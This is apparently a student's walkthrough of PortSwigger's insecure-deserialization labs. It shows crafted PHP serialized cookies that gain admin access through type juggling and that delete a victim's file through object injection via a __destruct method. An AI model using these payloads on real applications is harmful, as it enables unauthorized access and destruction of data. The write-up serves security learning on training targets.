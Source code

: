 [PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/deserialization)

## Insecure deserialization

### Lab 01: Modifying serialized objects
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)


![](imgs/2023-10-23-16-53-02.png)

![](imgs/2023-10-23-16-54-50.png)

```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

B64 Decode: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

![](imgs/2023-10-23-17-04-15.png)

![](imgs/2023-10-23-16-58-15.png)

![](imgs/2023-10-23-16-58-45.png)

### Lab 02: Modifying serialized data types
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)



![](imgs/2023-10-23-17-07-16.png)

```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ0aHVzYjdoeXIyd28yOTF0bGNkaWJkYmEweWoydzRjbiI7fQ%3d%3d

B64 Decode: 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
```

I try to put 'administrator' in the cookie

```
RAW: 
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
-> Cookie: 
```
![](imgs/2023-10-24-17-01-07.png)

i got an error:
![](imgs/2023-10-24-17-03-40.png)

So i imagine that there is a php script that compare the $user->access_token vs $access_token[i]. But the server doesn't check type of $user->access_token. 
-> [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

I replace the token string in the cookie with an interger.

```
RAW:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3D%3D
```
I have admin access.
![](imgs/2023-10-24-17-24-56.png)


![](imgs/2023-10-24-17-25-21.png)

### Lab 03: Using application functionality to exploit insecure deserialization
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

[Insecure deserialization](https://portswigger.net/web-security/deserialization)

Lab description:
```
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter
You also have access to a backup account: gregg:rosebud
```

![](imgs/2023-10-26-11-00-50.png)

I uploaded an image as avatar to the server. The cookie now contains the image path
```
Value:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
B64Decode:
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

So i tried to change the avatar path to something :v
```
Value: 
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
Cookie:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

And now i need to remove the wiener account inorder to remove the wiener avatar (/home/carlos/morale.txt) ? 

![](imgs/2023-10-26-11-13-18.png)

### Lab 04: Arbitrary object injection in PHP
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Cookie:
```
Value:
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkZGVvbjV0NW80OGp3MGluaXl6aGwwbjlvMzA2czc4YiI7fQ%3d%3d
B64Decode:
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ddeon5t5o48jw0iniyzhl0n9o306s78b";}
```

Maybe this is a hint...
![](imgs/2023-10-26-11-18-53.png)

Try to get /libs/CustomTemplate.php but its empty. However, I scan all possible backup files and found it:
![](imgs/2023-10-26-12-24-59.png)
![](imgs/2023-10-26-11-31-45.png)

/libs/CustomTemplate.php~ (This is the backup file generated by vi)
```

<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

The __destruct() method is called when the object is destroyed. It checks if the lock file exists and deletes it if it does.
-> That is the point we want

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```

![](imgs/2023-10-26-13-03-14.png)

### Lab 05: 